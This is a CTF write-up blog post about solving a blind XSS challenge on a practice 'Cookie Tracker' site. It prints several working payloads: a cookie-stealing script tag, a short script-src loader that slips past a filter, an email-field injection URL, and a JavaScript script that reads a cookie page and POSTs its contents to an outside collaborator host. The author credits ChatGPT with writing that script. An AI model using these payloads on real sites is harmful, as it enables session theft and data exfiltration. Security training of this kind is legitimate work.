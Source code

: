 ```yaml
---
layout: post
title: BSides-Bangalore CTF - Cookie Tracker Blind XSS Challenge
date: 2024-06-28 10:00 +0530
categories: [ctf, writeup]
tags: [ctf, XSS, web security]
---
```


## Introduction

This was a blind XSS challenge where the goal was to read the admin's cookie. The given website was called "Cookie Tracker" and had three functionalities:

* Store your cookie.
* See your cookie.
* Report a URL and an email.

![XSS challenge](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/XSS-1.png?raw=true "index.php")

## Initial Approach

Since this was an XSS challenge, my initial idea was to exploit the cookie-saving functionality to inject an XSS payload and then send a link to the admin via the report page to steal their session. So, I created a cookie with a random name and an XSS payload via `index.php`, which got executed. However, I realized that `index.php` simply created a new cookie with the name and value specified, and the cookie view page (`cookies.php`) read our cookie and displayed it without sanitization. To steal the admin's cookie, I needed another XSS vulnerability.

![XSS challenge](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/XSS-2.png?raw=true "cookies.php")

After careful inspection, I found that the report page (`report.php`) used `FILTER_VALIDATE_EMAIL` for the email field, which was vulnerable to XSS. I crafted a payload: `<script>document.location='http://interact-sh_url/?c='+document.cookie</script>`, but there was an error message saying "script tag is blocked" and there was a character limit as well. After some tinkering, I used `<script/src=//myserver/>`, which worked.
![XSS challenge](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/XSS-3.png?raw=true "report.php")

## HttpOnly Cookie Flag Bypass

Next, I created a JavaScript file that retrieved the admin's session and sent it to my collaborator link. After submitting the payload, I received an initial callback to the JS file but not to my collaborator server. I realized I forgot to check the cookie flags, and it turns out the cookie was `HttpOnly`. Now I needed another way to read the `HttpOnly` cookie. That's when I remembered the `cookies.php` file, which displayed our cookies. To read the admin's session, I created a JavaScript script that redirected the admin to `site/cookies.php`, read the content of that page, and sent it to my server. I also asked ChatGPT for assistance and got the following script:

```js
(function(){
  var remote_post = "http://quove1hw80r79vh3lkgi2kv7iyopcf04.oastify.com"; // Your server's full path to POST page

  // Call every couple seconds
  window.setInterval(function(){
    fetchContentAndPost();
  }, 4000);

  function fetchContentAndPost() {
    var targetUrl = window.location.protocol + "//" + window.location.host + "/cookies.php";
    var httpGet = new XMLHttpRequest();
    httpGet.open("GET", targetUrl, true); // Full URL to fetch
    httpGet.onreadystatechange = function() {
      if (httpGet.readyState == 4 && httpGet.status == 200) {
        var content = httpGet.responseText;
        sendToRemoteServer(content);
      }
    }
    httpGet.send();
  }

  function sendToRemoteServer(content) {
    var httpPost = new XMLHttpRequest();
    var params = "data=" + encodeURIComponent(content);
    httpPost.open("POST", remote_post, true);

    // Send the proper header information along with the request
    httpPost.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    httpPost.setRequestHeader("Content-length", params.length);
    httpPost.setRequestHeader("Connection", "close");

    httpPost.onreadystatechange = function() {
      if (httpPost.readyState == 4 && httpPost.status == 200) {
        // Optionally handle the response
      }
    }
    httpPost.send(params);
  }
})();
```


![XSS challenge](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/XSS-4.png?raw=true "Sending XSS payload to admin")

So, I hosted this script on my server and sent a request to the report.php page with the following URL `http://host3.metaproblems.com:6020/report.php?report_url=http://google.com&report_email=%22%3CsCript/src=http://<myip>/3.js%3E%22@x.y` with a random email, and a few seconds later, I got the callback on my collaborator server with the flag.

![XSS challenge](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/XSS-5.png?raw=true "Sending XSS payload to admin")